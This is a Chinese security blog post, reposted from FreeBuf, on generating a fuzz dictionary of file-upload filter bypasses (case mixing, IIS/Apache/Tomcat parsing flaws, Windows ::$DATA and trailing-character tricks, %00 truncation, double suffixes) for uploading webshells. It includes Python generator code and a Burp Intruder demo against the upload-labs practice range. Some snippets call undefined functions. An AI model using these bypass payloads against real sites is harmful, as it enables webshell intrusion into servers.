




# 构造优质上传漏洞Fuzz字典

[2020-04-11]()

## [](#前言 "前言")前言

**本文转自FreeBuf**  
上传漏洞的利用姿势很多，同时也会因为语言，中间件，操作系统的不同，利用也不同。比如有：大小写混合，.htaccess，解析漏洞，00截断，.绕过，空格绕过，::\$DATA绕过，以及多种姿势的组合等等。当遇到一个上传点，如何全面的利用以上姿势测试一遍，并快速发现可以成功上传webshell的姿势？

## [](#方案一：-一个一个手工测试 "方案一： 一个一个手工测试")方案一： 一个一个手工测试

手工把所有姿势测试一遍，先不说花费大量时间，还很可能会遗漏掉某些姿势而导致无法利用成功。

## [](#方案二：fuzz "方案二：fuzz")方案二：fuzz

在fuzz时我们往往会给一个输入点喂入大量特殊的数据。这个特殊的数据可能随机的，毫无规律的，甚至我们都无法预知的。但我思考了一下，这样的fuzz方式只是适合在本地fuzz 0day漏洞，并不适合通过fuzz在线网站的上传点，快速找出可以成功上传webshell的payload，因为时间成本排在哪里。

通过思考，我们可以知道如果能根据上传漏洞的场景（后端语言，中间件，操作系统）来生成优质的fuzz字典，然后使用该字典进行fuzz，就能消除以上两个解决方案的弊端！

## [](#一、构想 "一、构想")一、构想

在动手之前我们来思考下上传漏洞跟那些因素有关：

> 1.可解析的后缀，也就是该语言有多个可解析的后缀，比如php语言可解析的后缀为php,php2,php3等等  
>   
> 2.大小写混合，如果系统过滤不严，可能大小写可以绕过。  
>   
> 3.中间件，每款中间件基本都解析漏洞,比如IIS就可以把xxx.asp;.jpg当asp来执行。  
>   
> 4.系统特性，特别是Windows的后缀加点（.）,加空格，加::\$DATA可以绕过目标系统。  
>   
> 5.语言漏洞，流行的三种脚本语言基本都存在00截断漏洞。  
>   
> 6.双后缀，这个与系统和中间件无关，偶尔会存在于代码逻辑之中。  

整理以上思考，我们把生成字典的规则梳理为以下几条：

> 1.  可解析的后缀+大小写混合
> 2.  可解析的后缀+大小写混合+中间件漏洞
> 3.  .htaccess + 大小写混合
> 4.  可解析的后缀+大小写混合+系统特性
> 5.  可解析的后缀+大小写混合+语言漏洞
> 6.  可解析的后缀+大小写混合+双后缀

下面我们根据上面的构想，来分析每一方面的细节，并使用代码来实现。

## [](#二、-可解析后缀 "二、 可解析后缀")二、 可解析后缀

其实很多语言都这样，有多个可以解析后缀。当目标站点采用黑名单时，往往包含不全。以下我收集相对比较全面的可解析后缀，为后面生成字典做材料。



## [](#三、-大小写混合 "三、 大小写混合")三、 大小写混合

有些网站过滤比较简单，只是过滤了脚本后缀，但是没有对后缀进行统一转换为小写，在进行判断。这就存在一个大小写问题。这里我们可以编写两个函数，一个函数是传入一个字符串，函数返回该字符串所有大小写组合的可能，第二个函数是基于第一个函数，把一个list的传入返回一个list内所有字符的所有大小写组合的可能。

## [](#字符串大小写混合，返回字符串所有大写可能 "字符串大小写混合，返回字符串所有大写可能")字符串大小写混合，返回字符串所有大写可能

```
def str_case_mixing(word):
    str_list = []
    word = word.lower()
    tempWord = copy.deepcopy(word)
    plist = []
    redict = {}
    for char in range( len( tempWord ) ):
        char = word[char]
        plist.append(char) 
    num = len( plist )
    for i in range( num ):
        for j in range( i , num + 1 ):
            sContent = ''.join( plist[0:i] )
            mContent = ''.join( plist[i:j] )
            mContent = mContent.upper()
            eContent = ''.join( plist[j:] )
            content = '''%s%s%s''' % (sContent,mContent,eContent)
            redict[content] = None

    for i in redict.keys():
        str_list.append(i)

    return str_list

## list大小写混合
def list_case_mixing(li):
    res = []
    for l in li:
        res += uperTest(l)
    return res
```

## [](#四、-中间件漏洞 "四、 中间件漏洞")四、 中间件漏洞

这块是比较复杂的一块。首先我们先来梳理下

### [](#4-1-IIS "4.1 IIS")4.1 IIS

IIs一共有三个解析漏洞：

1.  IIS6.0文件解析 xx.asp;.jpg2.IIS6.0目录解析 xx.asp/1.jpg3.IIS 7.0畸形解析 xxx.jpg/x.asp

由于2和3和上传的文件名无关，故我们只根据1来生成fuzz字典

```
def iis_suffix_creater(suffix):
    res = []
    for l in suffix:
        str ='%s;.%s' % (l,allow_suffix)
        res.append(str)
    return res
```

### [](#4-2-apache "4.2 apache")4.2 apache

apache相关的解析漏洞有两个：

1.  \%0a\(CVE-2017-15715\)
2.  未知后缀 test.php.xxx

根据以上构造`apache_suffix_builder`函数生成规则：

```
def apache_suffix_creater(suffix):
    res = []
    for l in suffix:
        str = '%s.xxx' % l
        res.append(str)
        str = '%s%s' % (l,urllib.unquote('%0a')) #CVE-2017-15715
        res.append(str)
    return res
```

### [](#4-3-nginx "4.3 nginx")4.3 nginx

nginx解析漏洞有三个：

1.  访问连接加/xxx.php test.jpg/xxx.php
2.  畸形解析漏洞 test.jpg\%00xxx.php
3.  CVE-2013-4547 test.jpg\(非编码空格\)\\0x.php

nginx的解析漏洞，由于和上传的文件名无关，故生成字典无需考虑。

### [](#4-4-tomcat "4.4 tomcat")4.4 tomcat

tomcat用于上传绕过的有三种,不过限制在windows操作系统下。

```
xxx.jsp/
xxx.jsp
xxx.jsp::$DATA
```

根据以上规则生成字典对应的代码为：

```
win_tomcat = ['%20','::$DATA','/']
def tomcat_suffix_creater(suffix):
    res = []
    for l in suffix:
        for t in win_tomcat:
            str = '%s%s' % (l,t)
            res.append(str)
    return res
```

如果确定中间件为apache,可以加入.htaccess。同时如果操作系统还为windows，我们可以大小写混合。

```
if (middleware == 'apache' or middleware == 'all') and (os == 'win' or os == 'all'):
    htaccess_suffix = uperTest(".htaccess")
elif (middleware == 'apache' or middleware == 'all') and os == 'linux':
    htaccess_suffix = ['.htaccess']
else:
    htaccess_suffix = []
```

### [](#4-5-语言，中间件与操作系统的关系 "4.5 语言，中间件与操作系统的关系")4.5 语言，中间件与操作系统的关系

以上我们根据每个中间件的漏洞，编写了对应的fuzz字典生成函数。在最终生成字典时，我们还要考虑中间件可以运行那些语言，以及它们与平台的关系。



根据上表，我们明白：

iis下可以运行asp/aspx,php,jsp脚本，故这3种脚本语言可解析后缀均应该传入iis\_suffix\_builder\(\)进行处理；

apache下可以运行asp/aspx,php。故这2两种脚本语言可解析后缀均应该传入apache\_suffix\_builder\(\)进行处理；

tomcat下可以运行php，jsp，故这两个脚本语言可解析后缀均应该传入tomcat\_suffix\_builder\(\)进行处理。

注意：根据对tomcat上传的绕过分析，发现之后在windows平台下才能成功。故之后在Windows平台下才会调用`tomcat_suffix_builder()`对可解析后缀进行处理。

故伪代码可以编写如下：

```
if middleware == 'iis':
    case_asp_php_jsp_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_jsp_parse_suffix
    middleware_parse_suffix = iis_suffix_creater(case_asp_php_jsp_parse_suffix)
elif middleware == 'apache':
    case_asp_php_html_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_html_parse_suffix
    middleware_parse_suffix = apache_suffix_creater(case_asp_php_html_parse_suffix)
elif middleware == 'tomcat' and os == 'linux':
    middleware_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix
elif middleware == 'tomcat' and (os == 'win' or os == 'all'):
    case_php_jsp_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix
    middleware_parse_suffix = tomcat_suffix_creater(case_php_jsp_parse_suffix)
else:
    case_asp_php_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix
    iis_parse_suffix = iis_suffix_creater(case_asp_php_parse_suffix)
    case_asp_php_html_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_html_parse_suffix
    apache_parse_suffix = apache_build(case_asp_php_html_parse_suffix)
    case_php_jsp_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix
    tomcat_parse_suffix = tomcat_build(case_php_jsp_parse_suffix)        
    middleware_parse_suffix = iis_parse_suffix + apache_parse_suffix + tomcat_parse_suffix
```

## [](#五、-系统特性 "五、 系统特性")五、 系统特性

经过查资料，目前发现在系统层面，有以下特性可以被上传漏洞所利用。

Windows下文件名不区分大小写，Linux下文件名区分大写欧西；

Windows下ADS流特性，导致上传文件xxx.php::\$DATA = xxx.php；

Windows下文件名结尾加入`.`,`空格`,`<`,``·` ``\>`,`\>>>`,`0x81-0xff\`等字符，最终生成的文件均被windows忽略。

```
# 生成0x81-0xff的字符list
def str_81_to_ff():
    res = []
    for i in range(129,256):
        str = '%x' % i
        str = '%' + str
        str = urllib.unquote(str)
        res.append(str)
    return res
windows_os = [' ','.','/','::$DATA','<','>','>>>','%20','%00'] + str_81_to_ff()
def windows_suffix_builder(suffix):
    res = []
    for s in suffix:
        for w in windows_os:
            str = '%s%s' % (s,w)
            res.append(str)
    return res
```

## [](#六、-语言的漏洞 "六、 语言的漏洞")六、 语言的漏洞

语言漏洞被利用于上传的有\%00截断和0x00截断。它们在asp，php和jsp中都存在着。

```
def str_00_truncation(suffix,allow_suffix):
    res = []
    for i in suffix:
        str = '%s%s.%s' % (i,'%00',allow_suffix)
        res.append(str)
        str = '%s%s.%s' % (i,urllib.unquote('%00'),allow_suffix)
        res.append(str)
    return res
```

## [](#七、-双后缀 "七、 双后缀")七、 双后缀

有些站点通过对上传文件名进行删除敏感字符（php,asp,jsp等等）的方式进行过滤,例如你上传一个aphp.jpg的文件，那么上传之后就变成了a.jpg。这时就可以利用双后缀的方式上传一个a.pphphp,最终正好生成a.php。其实双后缀与中间件和操作系统无关，而是和代码逻辑有关。

针对双后缀，我们可以写个str\_double\_suffix\_creater\(suffix\)函数，传入后缀名suffix即可生成所有的双后缀可能。

```
def str_double_suffix_creater(suffix):
    res = []
    for i in range(1,len(suffix)):
        str = list(suffix)
        str.insert(i,suffix)
        res.append("".join(str))
    return res
```

在`list_double_suffix_creater(suffix)`函数基础上，可以编写`list_double_suffix_creater(list_suffix)`来为一个list生成所有双后缀可能。

```
def list_double_suffix_creater(list_suffix):
    res = []
    for l in list_suffix:
        res += double_suffix_creater(l)
    return duplicate_removal(res)
```

## [](#八、-整合代码 "八、 整合代码")八、 整合代码

上面我们针对和上传漏洞相关的每个方面进行了细致的分析，也提供了相关的核心代码。最终整合后的代码限于边幅，就放在github上了。  
<https://github.com/c0ny1/upload-fuzz-dic-builder>

```
$ python upload-fuzz-dic-builder.py -h
usage: upload-fuzz-dic-builder [-h] [-n] [-a] [-l] [-m] [--os] [-d] [-o]

optional arguments:
  -h, --help            show this help message and exit
  -n , --upload-filename
                        Upload file name
  -a , --allow-suffix   Allowable upload suffix
  -l , --language       Uploaded script language
  -m , --middleware     Middleware used in Web System
  --os                  Target operating system type
  -d, --double-suffix   Is it possible to generate double suffix?
  -o , --output         Output file
```

脚本可以之定义生成的上传文件名（-n），允许的上传的后缀（-a），后端语言（-l），中间件\(-m\),操作系统（—os），是否加入双后缀（-d）以及输出的字典文件名（-o）。我们可以根据场景来生成合适的字典，提供的信息越详细，脚本生成的字典越精确。

## [](#九、案例 "九、案例")九、案例

upload-labs靶场的Pass-03到Pass-10其实都是关于后缀的，在不知道代码的情况下，我们如何快速发现可以绕过的后缀呢？这时我们就可以使用upload-fuzz-dic-builder.py脚本生成fuzz字典，来进行fuzz。这里我选择Pass-09来给大家演示。

### [](#1-利用脚本生成Fuzz字典 "1.利用脚本生成Fuzz字典")1.利用脚本生成Fuzz字典

由于知道我们的后端语言为php,中间件为apache，操作系统为Windows。所以可以利用这些信息生成更精确的fuzz字典。

```
$ python upload-fuzz-dic-builder.py -l php -m apache --os win
[+] 收集17条可解析后缀完毕！
[+] 加入145条可解析后缀大小写混合完毕！
[+] 加入152条中间件漏洞完毕！
[+] 加入37条.htaccess完毕！
[+] 加入10336条系统特性完毕！
[+] 去重后共10753条数据写入upload_fuzz_dic.txt文件
```



### [](#2-抓包使用burp的Intruder模块对上传名称进行fuzz "2.抓包使用burp的Intruder模块对上传名称进行fuzz")2.抓包使用burp的Intruder模块对上传名称进行fuzz

抓取upload-labs的Pass-09的上传包，发送到Intruder模块，加载第一步脚本生成的fuzz字典，对上传的包的文件名进行fuzz。

  
经过测试，通过fuzz可以快速找到可以突破upload-labs那些基于后缀的Pass的payload。甚至fuzz出同一个Pass多种绕过的方法。

<https://www.freebuf.com/articles/web/188464.html>